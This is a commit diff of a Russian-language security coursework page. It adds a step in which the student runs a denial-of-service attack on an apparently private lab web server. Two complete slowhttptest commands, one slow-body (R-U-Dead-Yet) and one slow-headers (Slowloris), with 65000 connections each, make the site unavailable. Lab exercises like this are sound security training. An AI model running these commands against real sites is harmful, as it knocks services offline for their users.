

Before and after one commit to YUKalabin/Netology, a Markdown page: CourseWork/coursework.md, the part around the change. Drawn GitHub-style; pictures changed too: CourseWork/pic/slowhttptest.jpg (added); blank space fills up the shorter version.

Commit message:
CourseWork_end

```diff
--- a/CourseWork/coursework.md
+++ b/CourseWork/coursework.md
@@ -102,6 +102,19 @@
 
 ![](pic/ZAPalerts.jpg)
 
+8. Произвел DOS атаку на сайт:
+
+    > Для пущей надёжности сразу из двух консолей запуском команд:
+
+    > -B               slow body a.k.a R-U-Dead-Yet
+
+        slowhttptest -c 65000 -B -i 10 -r 2000 -t GET -u http://10.0.0.10:8888 -x 24 -p 3
+    > -H               slow headers a.k.a. Slowloris (default)
+
+        slowhttptest -c 65000 -H -i 10 -r 2000 -t GET -u http://10.0.0.10:8888 -x 24 -p 3
+    >  Сайт становится недоступен даже после запуска любой из этих атак.
+
+![](pic/slowhttptest.jpg)
 
 ## Результаты сканирования
 
```
